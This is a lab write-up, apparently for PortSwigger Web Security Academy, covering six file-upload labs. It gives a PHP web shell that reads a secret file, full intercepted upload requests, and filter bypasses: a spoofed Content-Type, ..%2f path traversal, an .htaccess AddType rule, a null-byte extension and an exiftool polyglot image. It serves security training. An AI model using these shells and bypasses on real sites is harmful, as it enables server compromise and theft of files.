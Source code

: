 # File upload vulnerabilities


---

<details>
  <summary>Lab: Remote code execution via web shell upload</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter``


---

1. login as ``wiener``
2. make newfile ``exploit.php``

``content`` of it:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

3. on my profile try to upload this file instead of photo

<img width="1140" height="282" alt="image" src="https://github.com/user-attachments/assets/27a7e7ba-24e8-44f4-9cfa-f8f0237436a9" />

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/d63874c1-6f17-4726-8cf3-2c43c93797cb" />

4. it successfully uploaded
5. now want to run this file we know form the request it saved in ``/files/avatars/exploit.php``

```url
https://0a6300e9038f3f07800e218600ea00a0.web-security-academy.net/files/avatars/exploit.php
```
```
mPcV5fg8QF3QG5vvRAjs2BIz4bVAcRra
```

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/634cd97e-e1b8-4194-816f-b98dd585f83c" />

  
</details>











<details>
  <summary>Lab: Web shell upload via Content-Type restriction bypass</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter`` 

---

1. login as ``wiener``
2. try to upload the ``exploit.php`` file from the previous lab

<img width="1232" height="149" alt="image" src="https://github.com/user-attachments/assets/27c9ab4e-a4aa-45ea-bcbd-ca7e4a56f62b" />

```http
POST /my-account/avatar HTTP/1.1
Host: 0a5900f8048b466280958aeb001f0009.web-security-academy.net
Cookie: session=JQCpU8NyZ2a2NOLfc3h8MgTUU08KE6Qp
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------165255631921329333142258700441
Content-Length: 546
Origin: https://0a5900f8048b466280958aeb001f0009.web-security-academy.net
Referer: https://0a5900f8048b466280958aeb001f0009.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php


<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="user"


wiener
-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="csrf"


SroXqhkioX5U46fb2pTZihfwA21q9io7
-----------------------------165255631921329333142258700441--


```

3. change ``Content-Type: application/x-php`` to

```http
Content-Type: image/jpeg
```

boom , it's uploaded successfully 

<img width="1402" height="677" alt="image" src="https://github.com/user-attachments/assets/85ce0cdc-84f1-47e7-8c51-aa44a7199c45" />

4. now run the ``exploit.php``

```
https://0a5900f8048b466280958aeb001f0009.web-security-academy.net/files/avatars/exploit.php
```

<img width="1107" height="188" alt="image" src="https://github.com/user-attachments/assets/f3f6f85d-7630-4d7d-860c-5c494be25cba" />

```
D7rWxnQnptgyIvGxDMbks5trX0Z2bT3w
```



  
</details>








<details>
  <summary>Lab: Web shell upload via path traversal</summary>


> ### This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability. ``path traversal``

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter`` 


---

1. login as ``wiener``
2. upload ``exploit.php`` file that we used in previous labs

<img width="979" height="170" alt="image" src="https://github.com/user-attachments/assets/b20ec59d-650a-4be2-843a-0f1ac37c31f2" />

it's uploaded successfully !!!

3. now try to run it 

```
https://0a78004503363a658cb1f98b00190005.web-security-academy.net/files/avatars/exploit.php
```

no thing happend !!!!

<img width="1034" height="380" alt="image" src="https://github.com/user-attachments/assets/53ce3704-b2f2-4b56-aba1-ce42a718c25f" />



this mean it not allow files in this directory to excuted ``/avatars``

so if we put the file on ``/files`` by using ``path traversal`` it will run

4. now try to upload ``exploit.php`` again and intercpt the request

```http
POST /my-account/avatar HTTP/2
Host: 0a78004503363a658cb1f98b00190005.web-security-academy.net
Cookie: session=9q473x8Ya7X7vZoCqHNFpEhPDiMhsdur
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------423410706123145428642617479270
Content-Length: 546
Origin: https://0a78004503363a658cb1f98b00190005.web-security-academy.net
Referer: https://0a78004503363a658cb1f98b00190005.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php


<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="user"


wiener
-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="csrf"


BvzgCzBq7ovrFY8tBRq8TrYlQF11tuIl
-----------------------------423410706123145428642617479270--


```

5. now change filename in ``Content-Disposition: form-data; name="avatar"; filename="exploit.php"`` to ``..%2fexploit.php`` we use ``..%2f`` to bypass the filter instead of ``../``

```
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

it's uploaded successfully this proof on ``path traversal``

<img width="1225" height="620" alt="image" src="https://github.com/user-attachments/assets/d74ed916-00fe-42c9-8edd-43c31ae05864" />


6. now run it form ``/files/exploit.php`` not ``/files/avatars/exploit.php``


```
https://0a78004503363a658cb1f98b00190005.web-security-academy.net/files/exploit.php
```


<img width="947" height="229" alt="image" src="https://github.com/user-attachments/assets/8527190e-e0e2-4937-a273-75f403014d34" />


```
MDkBY5byb22IlmP48nQqlbwOjszk9a0z
```

  
</details>










<details>
  <summary>Lab: Web shell upload via extension blacklist bypass</summary>



> You can log in to your own account using the following credentials: ``wiener:peter`` 



---

> ## in this lab server don't allow to upload ``.php`` files
> ### this lab use ``Apache`` server ``+`` ``mod_php`` this php module allow apache to excute ``php`` files Directly
> in apache there is feature call ``per-directory configuration`` that is mean you can add file with instructures inside any directory in server this file call ``.htaccess`` this file change the way that server deal with files in this directory only

1. login as ``wiener``
2. create new file call ``file.txt`` contain

```
AddType application/x-httpd-php .l33t
```

> this content tell ``apache`` that any file with ``.l33t`` extension deal with it as ``php`` file and excute it

when send it change ``filename`` to ``.htaccess``

```http
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
```

<img width="1224" height="580" alt="image" src="https://github.com/user-attachments/assets/7364949a-a9a0-4f1c-8382-973b6caab83b" />

> #### now if i upload ``php`` file with ``l33t`` extension it will uploaded

3. make file ``exploit.l33t``

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

<img width="1250" height="616" alt="image" src="https://github.com/user-attachments/assets/a2d662ab-4237-45e1-8632-0574a0007aaf" />

it uploaded successfully 

4. now run this file

```
https://0ac900c804effd6783b30a9a00b1002b.web-security-academy.net/files/avatars/exploit.l33t
```

<img width="997" height="233" alt="image" src="https://github.com/user-attachments/assets/e3297f2c-fd02-414d-8129-54b83d6e3308" />


```
a70CUTgIcfSJ8OgubEYNg29zljZYF2NV
```
  
</details>






<details>
  <summary>Lab: Web shell upload via obfuscated file extension</summary>


1. login as wiener
2. try to change photo and upload **`exploit.php`**

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

<img width="1771" height="765" alt="image" src="https://github.com/user-attachments/assets/3822d6f6-4410-4c61-b7f2-f24a5bda8c50" />

3. try to change extension to :

```
exploit.php%00.jpg
```

<img width="1828" height="722" alt="image" src="https://github.com/user-attachments/assets/08c124b2-7601-4f27-a0a0-274f462d4887" />


> it uploaded successfully


```url
GET /files/avatars/exploit.php HTTP/2
```

<img width="1467" height="513" alt="image" src="https://github.com/user-attachments/assets/7cbddfe5-1a53-43f7-ab58-4938202ff147" />


```
raBbwWYE7pk77sdGXjeDvpzl0PTQUbBq
```

  
</details>













<details>
  <summary>Lab: Remote code execution via polyglot web shell upload</summary>

1. login as **`wineer`**
2. now try to change photo and upload `exploit.php`

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

>  but the server blocked us even if we use any techniques we've learned in previous labs.

3. try to upload normal photo and edit it's exifdata and save output as `exploit.php` 



```
exiftool -Comment="<?php echo 'The_Flag{ ' . file_get_contents('/home/carlos/secret') . ' }'; ?>" test.jpg -o exploit.php
```

## exif data before edit

<img width="824" height="671" alt="image" src="https://github.com/user-attachments/assets/e7267702-d29d-41cc-aba6-b0ef677cfec6" />

## after add comment 

<img width="1043" height="673" alt="image" src="https://github.com/user-attachments/assets/7dc65f18-31a4-4338-a183-b830e7b1306e" />

## now upload the file `exploit.php`

<img width="1529" height="590" alt="image" src="https://github.com/user-attachments/assets/36114e3c-ebcf-4ac1-a781-826954231a8e" />

## it uploaded successfully

## now open it :

```url
https://0a7400ff046083dc842e2c5700ca0038.web-security-academy.net/files/avatars/exploit.php
```

<img width="738" height="127" alt="image" src="https://github.com/user-attachments/assets/ddaad659-e567-43bb-ab42-5701d3cf19dd" />

```
Flag{ F3gFwV8J7kDtBUn4tWxIIgvaE9gZJDVF }
```

  
</details>










































